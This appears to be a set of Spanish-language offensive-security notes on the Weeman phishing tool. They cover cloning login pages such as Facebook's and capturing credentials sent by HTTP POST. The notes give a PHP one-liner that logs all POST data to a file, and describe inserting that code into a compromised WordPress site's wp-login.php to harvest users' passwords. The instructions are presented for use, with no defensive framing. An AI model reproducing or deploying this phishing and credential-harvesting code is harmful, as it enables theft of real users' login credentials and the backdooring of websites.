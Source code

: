 https://github.com/evait-security/weeman

Weeman: herramienta para realizar phising. Crea un servidor phising en python, creando páginas html fakes, espera a conexión por parte de los clientes, graba la data que viaja en el método HTTP POST e intenta conectar a las páginas originales con las credenciales obtenidas.

Opciones weeman:
- `weeman` 		// abre CLI propia de la tool
- `show options` 		// muestra opciones
- `set url <url>` 		// set url https://facebook.com/login.php
-  `set action_url <url>` 		// set action_url https://facebook.com/login.php
-  `run`		// descarga la página, la copia en el servicio web para poder acceder por localhost:8080

Mejoras del sercicio:
- Al introducir usuario y contraseña, estos son manejados por el fichero "redirect.html" que guarda los datos, los procesa al servidor y redirige a la página original
- Podemos cambiar el "action" del formulario para que un archivo propio haga la gestión.
- post.php --> `<?php $file = 'datos_privados.txt'; file_put_contents($file, print_r($_POST, true), FILE_APPEND); ?>`
- Este fichero irá apendizando los datos que vaya capturando por el método POST y guardándolo en el fichero datos_privados.txt

Otras opciones de uso:
- Si tenemos acceso a una máquina donde se expone un servicio web con Wordpress, si podemos modificar el fichero wp-login.php, podemos incorporar el mismo concepto para ir capturando credenciales.
- Después de los 'require' que hará php, podemos incorporar:
- `$file = 'datos_privados.txt';`
- `file_put_contents($file, print_r($_POST, true), FILE_APPEND);`
- Observaremos el directorio para cuando aparezca el fichero 'datos_privados.txt':
- `watch -n 1 ls -l`
- Si algún usuario se conecta al servicio y presenta credenciales, estas serán mostradas en el fichero 'datos_privados.txt'.